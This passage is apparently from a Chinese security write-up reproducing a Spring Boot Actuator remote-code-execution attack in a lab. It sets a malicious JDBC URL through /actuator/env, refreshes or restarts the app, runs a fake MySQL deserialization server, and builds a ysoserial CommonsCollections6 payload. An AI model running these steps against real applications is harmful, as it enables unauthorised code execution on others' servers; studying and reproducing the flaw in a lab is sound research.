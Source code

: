 ```plain
curl -H "Content-Type:application/json" -X POST  --data '{"name":"spring.datasource.url","value":"jdbc url' http://localhost:9097/actuator/env
```

**(2) 刷新配置**

```plain
curl -H "Content-Type:application/json" -X POST  http://localhost:9097/actuator/refresh
```

这里也可以通过`restart`来触发。

```plain
curl -H "content-Type:  application/json" -X POST http://localhost:9097/actuator/restart
```

**(3) 访问数据库操作触发**

先监听 3307，这里注意使用 Py2，利用脚本不支持 Py3，会出错。

```plain
python springboot-jdbc-deserialization-rce.py
```

接下来访问即可。

`curl http://localhost:9097/product/list`

关于这个，其实在真实环境中，都不用自己去触发，自带的其他操作都会导致进行数据库连接。

**(4) 恢复 Spring.datasource.url**

当我们获得 RCE 之后，前面记录的本来的 jdbc url 就可以还原回去了，操作如下。

```plain
curl -H "Content-Type:application/json" -X POST  --data '{"name":"spring.datasource.url","value":"jdbc:mysql://127.0.0.1:3306/test' http://localhost:9097/actuator/env
```

最终，在测试过程，我发现，有请求访问伪造的 mysql 服务，但是 Spring-boot 进程却在序列化的过程中报错退出了，导致命令没有执行成功。

[![](assets/1711556137-3134c3ff7dc5134cef3e32f71de3665b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210620112049-829d34ee-d176-1.png)

这个是 jdk 版本导致的，改用 cc6 来解决

```plain
java -jar ysoserial-0.0.8-SNAPSHOT-all.jar  CommonsCollections6 ' open -a Calculator.app' > payload.ser
```
